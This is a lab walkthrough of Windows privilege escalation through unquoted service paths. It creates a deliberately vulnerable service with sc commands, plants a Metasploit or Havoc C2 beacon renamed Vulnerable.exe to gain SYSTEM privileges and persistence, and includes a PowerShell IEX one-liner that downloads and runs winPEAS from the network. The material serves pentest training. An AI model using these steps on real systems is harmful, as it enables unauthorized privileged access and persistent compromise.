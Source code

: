 # UNQUOTED SERVICE PATH

- AlwaysInstallElevated (MSI)
  
- Unquoted Service Path (Services)
  - Requires missing "quotes"
  - and whitespaces in the path
  - write permission in the (sub)folder that holds the service binary

To exploit, the exe needs to be named after the directory it's in, i.e:

---  

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

- Create folders "C:\MyPrograms\Vulnerable Service\"
- create pingservice in vs2019
- copy pingservice as "VulnService.exe" to this path

```powershell
sc create VulnService binPath= "C:\MyPrograms\Vulnerable Service\VulnService.exe"
sc config VulnService obj= ".\Threatadmin" password= "password"
sc qc VulnService
sc start VulnService
```

When there are spaces in a service path, windows will try to find the service as follows:

It will parse "C:\MyPrograms\Vulnerable Service\service.exe" into

- Potential service : "C:\MyPrograms\vulnerable.exe"
- with arguments `Service\service.exe`

By placing a malicious service exe in "C:\MyPrograms\" named `vulnerable.exe`, we'll escalate privileges to NT SYSTEM AUHTORITY (if the service is running with those privileges)



Then drop metasploit payload (renamed to Vulnerable.exe) in C:\MyPrograms.

  https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md

---

Run the following tools as a regular unprivileged user (`runas /user:student powershell.exe`)

> - [+] SharpUp/Powerup
> - [+] WinPeas

### WINPEAS

Runas student (unprivileged)

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```



Use the Havoc session to upload a havoc.exe renamed to `vulnerable.exe` to the `C:\MyPrograms\Vulnerable Service\` path, and then start the VulnService, using the havoc `shell` command.

upload /opt/havoc/demonsvc.x64.exe c:\MyPrograms\Vulnerable.exe

```powershell
sc.exe start VulnService
```

> Please note that regular users can't restart services, but after a reboot this will automatically execute.

You'll now have a 2nd beacon with `NT AUHORITY\SYSTEM` privileges.


> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `code-execution` and `persistence`!!!